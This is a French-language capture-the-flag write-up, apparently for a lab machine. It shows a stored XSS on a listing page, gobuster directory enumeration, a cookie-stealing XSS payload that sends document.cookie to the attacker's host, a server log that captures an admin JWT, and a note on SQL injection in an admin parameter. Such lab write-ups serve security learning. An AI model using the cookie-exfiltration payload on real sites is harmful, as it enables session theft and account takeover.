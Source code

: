Il y a une XSS avec la description sur la page **http://10.10.145.247/new**, le payload suivant fonctionne

```Payload
<script>alert(1)</script>
```
## Gobuster
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/new                  (Status: 302) [Size: 28] [--> /login]
/login                (Status: 200) [Size: 857]
/signup               (Status: 200) [Size: 667]
/admin                (Status: 403) [Size: 392]
/Login                (Status: 200) [Size: 857]
/messages             (Status: 302) [Size: 28] [--> /login]
/New                  (Status: 302) [Size: 28] [--> /login]
/NEW                  (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 403) [Size: 392]
/Signup               (Status: 200) [Size: 667]
/SignUp               (Status: 200) [Size: 667]
/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
/Messages             (Status: 302) [Size: 28] [--> /login]
/signUp               (Status: 200) [Size: 667]
/LogIn                (Status: 200) [Size: 857]
/LOGIN                (Status: 200) [Size: 857]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```
# Admin panel
On va voir si on peux récupèrer un cookie admin avec une XSS et le payload suivant:
```
<script>document.write('<img src="http://10.11.50.195?cookie=' + document.cookie + '" />')</script>
```
Je reçoit bien le token admin après l'avoir report. Merci le hint: ***If you think a listing is breaking the rules, you can report it!***
```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.112.87 - - [24/Nov/2023 09:58:49] "GET /?cookie=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3MDA4Mzc5Mjl9.Qfmgkr3YHYWHRO3CqEBbBlulBVUQiw5xUjGk1og1CE0 HTTP/1.1" 200 -
```
J'ai désormais l'accès au panel admin en tant que **michael**.
## SQLi
La page http://10.10.112.87/admin?user=123%27 est vulnérable aux injection SQL.
